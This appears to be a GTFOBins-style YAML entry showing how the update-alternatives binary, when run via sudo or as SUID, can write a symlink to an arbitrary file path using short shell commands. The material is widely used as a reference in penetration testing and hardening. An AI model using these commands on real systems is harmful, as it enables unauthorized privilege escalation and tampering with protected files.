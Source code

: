 ```yaml
---
functions:
  sudo:
    - description: Write in `$LFILE` a symlink to `$TF`.
      code: |
        LFILE=/path/to/file_to_write
        TF=$(mktemp)
        echo DATA >$TF
        sudo update-alternatives --force --install "$LFILE" x "$TF" 0
  suid:
    - description: Write in `$LFILE` a symlink to `$TF`.
      code: |
        LFILE=/path/to/file_to_write
        TF=$(mktemp)
        echo DATA >$TF
        ./update-alternatives --force --install "$LFILE" x "$TF" 0
---
```

